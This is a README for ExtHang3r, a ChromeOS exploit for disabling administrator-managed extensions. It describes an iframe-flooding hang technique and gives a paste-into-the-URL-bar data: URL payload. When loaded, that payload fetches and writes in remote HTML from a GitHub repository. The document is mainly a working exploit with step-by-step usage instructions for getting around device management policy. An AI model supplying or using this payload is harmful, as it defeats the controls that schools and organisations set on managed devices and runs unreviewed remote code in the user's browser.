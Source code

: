 # ExtHang3r

## What is it?
ExtHang3r is an exploit created by <a href="https://github.com/Blobby-Boi/">Blobby Boi</a> that allows ChromeOS users to kill managed extensions after the LTMEAT patch. It remains unpatched in all new ChromeOS versions as of January 2025.

## How does it work?
This exploit works very similar to <b>Dextensify</b>. The main difference being that instead of creating iframes and slowly getting rid of them, a separate popup window is created that spams iframes and refreshes them. After a few seconds, the popup is closed achieving similar behavior to the <b>LTMEAT Flood</b> method. This worked great in paper, but for whatever reason this hang just woudn't let you disable the extension with the file URLs switch. It would instead just restart the extension. However, a solution was quickly found and it was as simple as just attempting to load any of the extension's pages prior to flipping the switch.

## How do I use it?
To use the exploit, paste the following url into your url bar. More detailed instructions are provided in the exploit's page.

> [!TIP]
> If the tab immediately closes after opening, try changing the beginning of the URL from `data:` to `data://`.

```
data:text/html;charset=utf-8,%3C!DOCTYPE%20html%3E%0A%3Chtml%20lang%3D%22en%22%3E%0A%3Chead%3E%0A%20%20%3Cmeta%20charset%3D%22UTF-8%22%3E%0A%20%20%3Cmeta%20name%3D%22viewport%22%20content%3D%22width%3Ddevice-width%2C%20initial-scale%3D1.0%22%3E%0A%20%20%3Ctitle%3EEharp%3C%2Ftitle%3E%0A%20%20%3Clink%20rel%3D%22shortcut%20icon%22%20type%3D%22image%2Fpng%22%20href%3D%22https%3A%2F%2Fraw.githubusercontent.com%2FBlob-Boi%2FExtHang3r%2Frefs%2Fheads%2Fmain%2Fblob.png%22%3E%0A%20%20%3Cscript%3E%0A%20%20%20%20document.addEventListener(%22DOMContentLoaded%22%2C%20()%20%3D%3E%20%7B%0A%20%20%20%20%20%20const%20url%20%3D%20%22https%3A%2F%2Fraw.githubusercontent.com%2FBlob-Boi%2FExtHang3r%2Frefs%2Fheads%2Fmain%2Findex.html%22%3B%0A%0A%20%20%20%20%20%20fetch(url)%0A%20%20%20%20%20%20%20%20.then(response%20%3D%3E%20response.text())%0A%20%20%20%20%20%20%20%20.then(html%20%3D%3E%20%7B%0A%20%20%20%20%20%20%20%20%20%20document.open()%3B%0A%20%20%20%20%20%20%20%20%20%20document.write(html)%3B%0A%20%20%20%20%20%20%20%20%20%20document.close()%3B%0A%20%20%20%20%20%20%20%20%7D)%3B%0A%20%20%20%20%7D)%3B%0A%20%20%3C%2Fscript%3E%0A%3C%2Fhead%3E%0A%3C%2Fhtml%3E
```
